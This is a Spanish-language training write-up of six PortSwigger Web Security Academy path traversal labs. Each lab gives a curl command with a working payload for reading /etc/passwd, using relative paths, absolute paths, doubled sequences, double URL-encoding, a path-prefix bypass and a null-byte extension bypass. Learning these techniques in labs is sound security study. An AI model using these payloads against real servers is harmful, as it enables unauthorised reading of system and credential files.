



# Path Traversal

## Reading arbitrary files via directory traversal

### Lab 1: File path traversal, simple case

En este laboratorio nos indican que la página tiene una vulnerabilidad de path traversal en la visualización de imagenes de los productos. Sacamos el link de alguna de las imágenes para realizar las pruebas.

`https://acec1fab1f1086c6c0ecada300b800d0.web-security-academy.net/image?filename=37.jpg`

Para estos laboratorios variaremos el valor de filename para conseguir leer algún archivo que no deberíamos poder leer(/etc/passwd). Para ello usaremos **curl** o también podemos usar **burp suite**, pero necesitamos ver la respuesta del servidor en un formato crudo.


```bash
curl -i "https://acec1fab1f1086c6c0ecada300b800d0.web-security-academy.net/image?filename=../../../etc/passwd"
```



Si lo probamos en el navegador el mismo enlace nos mostrará que intenta intrepretar la imagen con el resultado, debido a que la respuesta indica que el tipo de archivo que ha enviado en una imágen. Esta "imágen" no tiene el formato de imágen por eso no sabe como leerlo.

## Common obstacles to exploiting file path traversal vulnerabilities

### Lab 2: File path traversal, traversal sequences blocked with absolute path bypass

Para este caso usamos una ruta absoluta en vez de una relativa como el laboratorio anterior.

```bash
curl -i "https://ac2a1f791e91ea97c04202cc00de005a.web-security-academy.net/image?filename=/etc/passwd"
```



### Lab 3: File path traversal, traversal sequences stripped non-recursively

El servidor esta reemplazando ".." con "." y "./" con "/", por lo que si colocamos el doble de
```bash
curl -i "https://ac891fec1fefc508c0446bad00c300c5.web-security-academy.net/image?filename=....//....//....//....//....//etc/passwd"
```



### Lab 4: File path traversal, traversal sequences stripped with superfluous URL-decode
El servidor filtra algunas entradas contra path traversal y sanitiza con una función URL-decode para evitar que ofusquen los simbolos "../", es por ello que ingresamos `../../../etc/passwd` encodificado con URL-encode 2 veces.
```bash
curl -i "https://ac9f1ff81ff79e24c0a82d5d00200087.web-security-academy.net/image?filename=..%252f..%252f..%252fetc/passwd"
```

### Lab 5: File path traversal, validation of start of path

En este caso es necesario que en la entrada este `/var/www/images/` sino filtran la respuesta.
```bash
curl -i "https://acb11fd61fdcf6d0c02a932400b9000e.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd"
```

### Lab 6: File path traversal, validation of file extension with null byte bypass

En el laboratorio requiere que tenga la extension .png para permitir la consulta. Sin embargo podemos cortar la cadena del nombre con %00 que vendría a ser el caracter nulo que se usa para cerrar una cadena.
```bash
curl -i "https://acf61fbf1e7846a6c0ff09bc000c0038.web-security-academy.net/image?filename=../../../../etc/passwd%00.png"
```